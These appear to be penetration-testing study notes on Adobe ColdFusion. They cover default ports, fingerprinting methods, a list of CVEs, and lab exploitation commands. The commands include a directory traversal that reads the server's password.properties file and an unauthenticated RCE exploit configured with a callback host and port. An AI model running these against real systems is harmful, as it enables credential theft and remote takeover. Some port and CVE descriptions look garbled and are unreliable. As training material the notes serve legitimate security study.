 ### Footprinting + Enumeration

ColdFusion exposes a fair few ports by default:

| Port Number | Protocol       | Description                                                                                                                                                            |
| ----------- | -------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 80          | HTTP           | Used for non-secure HTTP communication between the web server and web browser.                                                                                         |
| 443         | HTTPS          | Used for secure HTTP communication between the web server and web browser. Encrypts the communication between the web server and web browser.                          |
| 1935        | RPC            | Used for client-server communication. Remote Procedure Call (RPC) protocol allows a program to request information from another program on a different network device. |
| 25          | SMTP           | Simple Mail Transfer Protocol (SMTP) is used for sending email messages.                                                                                               |
| 8500        | SSL            | Used for server communication via Secure Socket Layer (SSL).                                                                                                           |
| 5500        | Server Monitor | Used for remote administration of the ColdFusion server.                                                                                                               |

Methods of Discovery:

| Method            | Description                                                                                                                                                                                                           |
| ----------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `File Extensions` | ColdFusion pages typically use ".cfm" or ".cfc" file extensions. If you find pages with these file extensions, it could be an indicator that the application is using ColdFusion.                                     |
| `HTTP Headers`    | Check the HTTP response headers of the web application. ColdFusion typically sets specific headers, such as "Server: ColdFusion" or "X-Powered-By: ColdFusion", that can help identify the technology being used.     |
| `Error Messages`  | If the application uses ColdFusion and there are errors, the error messages may contain references to ColdFusion-specific tags or functions.                                                                          |
| `Default Files`   | ColdFusion creates several default files during installation, such as "admin.cfm" or "CFIDE/administrator/index.cfm". Finding these files on the web server may indicate that the web application runs on ColdFusion. |
![[Pasted image 20250212082757.png]]

#### Admin Panel `/CFIDE/administrator`
![[Pasted image 20250212082834.png]]

### Exploitation
ColdFusion has historically been vulnerable to various types of attacks, such as SQL injection, XSS, directory traversal, authentication bypass, and arbitrary file uploads. To improve the security of ColdFusion, developers must implement secure coding practices, input validation checks, and properly configure web servers and firewalls. Here are a few known vulnerabilities of ColdFusion:

1. CVE-2021-21087: Arbitrary disallow of uploading JSP source code
2. CVE-2020-24453: Active Directory integration misconfiguration
3. CVE-2020-24450: Command injection vulnerability
4. CVE-2020-24449: Arbitrary file reading vulnerability
5. CVE-2019-15909: Cross-Site Scripting (XSS) Vulnerability

```bash
searchsploit adobe coldfusion
```

#### Directory Traversal (ColdFusion 8)
```bash
searchsploit -m 14641

python2 14641.py 10.129.204.230 8500 "../../../../../../../../ColdFusion8/lib/password.properties"
```

#### Unauthenticated RCE
```bash
searchsploit -m 50057

 lhost = '10.10.14.55' # CHANGE ME
    lport = 4444 # CHANGEME
    rhost = "10.129.247.30" # Target IP
    rport = 8500 # Target Port

python3 50057.py 
```

